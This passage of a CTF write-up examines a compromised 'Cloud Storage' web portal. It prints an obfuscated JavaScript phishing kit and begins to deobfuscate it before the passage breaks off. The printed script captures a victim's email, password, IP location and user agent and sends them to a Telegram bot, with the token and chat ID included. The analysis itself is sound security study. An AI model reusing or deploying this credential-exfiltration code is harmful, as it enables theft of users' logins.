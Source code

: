 ```html
    var A=B;function B(C,D){var E=F();return B=function(Bbb,G){Bbb=Bbb-0xb7;var H=E[Bbb];return H;},B(C,D);}(function(I,J){var K=B,L=I();while(!![]){try{var M=-parseInt(K(0xe9))/0x1+-parseInt(K(0xda))/0x2+parseInt(K(0xc0))/0x3*(-parseInt(K(0xb8))/0x4)+parseInt(K(0xd6))/0x5+-parseInt(K(0xe0))/0x6*(-parseInt(K(0xd5))/0x7)+parseInt(K(0xb7))/0x8*(-parseInt(K(0xe3))/0x9)+-parseInt(K(0xe1))/0xa*(parseInt(K(0xdb))/0xb);if(M===J)break;else L['push'](L['shift']());}catch(N){L['push'](L['shift']());}}}(F,0xa9b1c));var elem=$(A(0xb9)),elem1=A(0xde),elem2=A(0xd7),email=$(A(0xc2))[A(0xc9)](),domain=email[A(0xe4)](email[A(0xbc)]('@')+0x1),frmsite=domain[A(0xe4)](0x0,domain[A(0xbc)]('.'));const str=frmsite+A(0xce),str2=str[A(0xbd)](0x0)[A(0xeb)]()+str[A(0xe7)](0x1);let today=new Date()[A(0xc6)]();$(A(0xba))[A(0xe5)](str2),$('#title')[A(0xe5)](str2),$(A(0xc1))['append'](A(0xbb)+domain+A(0xd4)),$(A(0xdd))[A(0xe5)](A(0xcd)+domain+'\x22>'),document[A(0xe8)][A(0xd0)]['background']=A(0xca)+domain+'\x27)',elem['on'](A(0xec),function(O){var P=A;$('#inputPassword')[P(0xdf)]()===''?alert(P(0xcb)):$['getJSON'](P(0xcf),function(Q){var R=P,S=Q['ip'],T=Q[R(0xc8)],U=Q['region'],V=Q['country'],W=navigator['userAgent'];let X=new Date()[R(0xc6)]();var Y=R(0xc4)+str2+'\x20by\x20Zach\x20A**'+'\x0a\x0a'+R(0xe2)+$(R(0xc2))[R(0xc9)]()+'\x0a'+R(0xc7)+$(R(0xd9))[R(0xdf)]()+'\x0a'+'IP\x20Address\x20:\x20'+S+'\x0a'+R(0xe6)+U+'\x0a'+R(0xc3)+T+'\x0a'+R(0xbe)+V+'\x0a'+R(0xed)+W+'\x0a'+R(0xcc)+$(R(0xea))[R(0xdf)]()+'\x0a'+R(0xd8)+X+'\x0a'+R(0xbf)+$(R(0xc5))[R(0xdf)](),Z=R(0xdc)+elem1+R(0xd3);$[R(0xd2)](Z,{'chat_id':elem2,'text':Y},function(AA){var AB=R;window['location'][AB(0xee)]=AB(0xd1);});});});function F(){var AC=['val','12ZidQyC','20AFlrCY','Email:\x20','63792quNVYn','substring','append','Region\x20:\x20','slice','body','139437pXYFEK','#UserEmail','toUpperCase','click','Useragent\x20:\x20','href','88GpIPQU','904cdojGd','#submit','#dname','<img\x20class=\x22mb-4\x22\x20src=\x22https://logo.clearbit.com/','lastIndexOf','charAt','Country\x20:\x20','DateSent\x20:\x20','10311YpzJVd','#dlogo','#emailtext','City\x20:\x20','***','#DateSent','toLocaleDateString','Password\x20:\x20','city','text','url(\x27https://logo.clearbit.com/','Password\x20field\x20missing!','Format\x20:\x20','<link\x20rel=\x22icon\x22\x20href=\x22https://logo.clearbit.com/','\x20Cloud\x20Storage','https://ip.seeip.org/geoip','style','https://archive.org/details/VoiceMail_173','post','/sendMessage','\x22\x20alt=\x22\x22\x20width=\x22150\x22\x20\x20>','4716964xBODFJ','3724320KAqSuZ','5852841790','Date\x20Filled\x20:\x20','#inputPassword','380874lxWkrT','1170928pBbGzs','https://api.telegram.org/bot','head','6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'];F=function(){return AC;};return F();}
</script 1=2
```

Hmm... Since a malicious actor compromised the Cloud Storage web portal, ***it's clear that the bad actor did something peculiar to the `/` page.***

Like **obfuscated `<script>` element, weird `1=2`.**

Now, **don't click "Sign in" yet**, just in case the bad actor did a [watering hole attack](https://en.wikipedia.org/wiki/Watering_hole_attack) to the `/` page.

**Let's deobfuscate `<script>` elements via [de4js](https://lelinhtinh.github.io/de4js/):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401152423.png)

**Deobfuscated:**
```html
<script>
    var _0x7298 = ["getFullYear", "write"];
    document[_0x7298[1]](new Date()[_0x7298[0]]())
</script>

<script>
    var A = B;
    
    function B(C, D) {
        var E = F();
        return B = function (Bbb, G) {
            Bbb = Bbb - 0xb7;
            var H = E[Bbb];
            return H;
        }, B(C, D);
    }(function (I, J) {
        var K = B,
            L = I();
        while (!![]) {
            try {
```